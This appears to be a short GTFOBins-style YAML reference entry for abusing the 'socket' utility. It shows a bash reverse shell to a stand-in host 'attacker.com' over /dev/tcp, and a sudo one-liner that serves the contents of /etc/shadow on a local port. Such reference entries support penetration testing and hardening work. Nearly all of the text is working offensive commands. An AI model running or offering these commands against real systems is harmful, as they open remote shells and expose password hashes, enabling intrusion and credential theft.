 ```yaml
---
description: Note that any shells are non-interactive. A reverse shell or similar is required to gain an interactive system shell.
functions:
  reverse-shell:
   - code: |
     LPORT=12345
     RPORT=11111
     RHOST=attacker.com
     socket -wslqvp "bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'" $LPORT
  sudo:
   - description: This listens on a local port of your choice. Connect to it using nc, curl, or similar tool to get command execution.
     code: |
      LPORT=12345
      sudo socket -wslqvp "cat /etc/shadow " $LPORT
---
```


